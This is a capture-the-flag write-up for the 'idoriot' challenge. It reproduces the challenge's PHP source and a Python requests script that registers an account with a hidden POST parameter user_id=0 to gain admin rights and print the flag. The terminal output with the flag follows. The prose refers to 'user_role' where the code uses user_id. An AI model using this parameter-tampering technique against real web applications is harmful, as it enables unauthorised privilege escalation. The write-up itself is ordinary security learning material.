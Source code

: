 ```php

// Display user ID on landing page
echo "Welcome, User ID: " . urlencode($_SESSION['user_id']);

// Get the user for admin
$db = new PDO('sqlite:memory:');
$admin = $db->query('SELECT * FROM users WHERE user_id = 0 LIMIT 1')->fetch();

// Check if the user is admin
if ($admin['user_id'] === $_SESSION['user_id']) {
    // Read the flag from flag.txt
    $flag = file_get_contents('flag.txt');
    echo "<h1>Flag</h1>";
    echo "<p>$flag</p>";
} else {
    // Display the source code for this file
    echo "<h1>Source Code</h1>";
    highlight_file(__FILE__);
}

?>
```

Based on the source code can be seen, to get the flag we need a `user_role` of 0. Can edit it through burp.

Solution:
```python
import requests

url = "http://idoriot.chal.imaginaryctf.org/"

def session_requests(sess, method, endpoint, data=None):
    try:
        if method == 'POST':
            response = sess.post(url + endpoint, data=data)
        else:
            response = sess.get(url + endpoint, data=data)
        response.raise_for_status()
        return response.text
    except requests.exceptions.RequestException as e:
        print(f"Have error: {e}")
        return None

with requests.Session() as session:
    res = session_requests(session, 'POST', 'register.php', { "username":"taiwhis", "password":"abc", "user_id":0 }) # replae username if time < 30 min
    print(res)

```

Result:
```
┌──(taiwhis㉿kali)-[~]
└─$ python 1.py
Welcome, User ID: 0<h1>Flag</h1><p>ictf{1ns3cure_direct_object_reference_from_hidden_post_param_i_guess}</p>
                                                                                                                
```
